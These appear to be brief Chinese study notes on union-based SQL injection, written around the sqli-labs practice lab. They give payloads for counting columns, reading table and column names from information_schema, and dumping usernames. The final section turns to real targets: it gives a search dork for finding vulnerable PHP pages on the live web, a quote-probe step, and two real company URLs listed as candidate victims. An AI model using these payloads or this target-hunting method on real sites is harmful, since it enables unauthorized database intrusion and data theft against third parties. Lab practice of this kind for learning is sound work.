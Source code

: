 # http://127.0.0.1/sqli-labs/Less-1/?id=1

# 





# 

## --+ == --  注释 :-- 或者--+

## order by 10   按照第10列排序

## union select 1,2,3  判断出几列写几列

#### union 优先执行前面的命令，若前面不显示则前面的值改为-1

#### union select 后根据回显位多少，依据修改

###### database() 数据库名

在括号中 (select group_concat(table_name) from information_schema.tables where table_schema='security')           查看database得到的数据库下的表名字

上行中的 table_name 是查表名, 将其改为 column_name ,将后面的 _schema.tables 改为 _schema.columns ,最后添加一个条件 and table_name='users'

#### 这时候得到了表中的字段名再查看 查看的 users 得到该表中的所有用户名：

(select group_concat(username) from users)

# 可以通过inrul:php?id=12 公司 jp 去web中寻找机会 随机挑选后再url后添加' 查看是否有报错，

> 1. https://www.kstech.com.tw/products_detail.php?id=12 不确定
> 
> 2.  https://www.i-chiun.com.tw/_ch/01_about/01_detail.php?id=1

 

- and 1=2

- order by 10
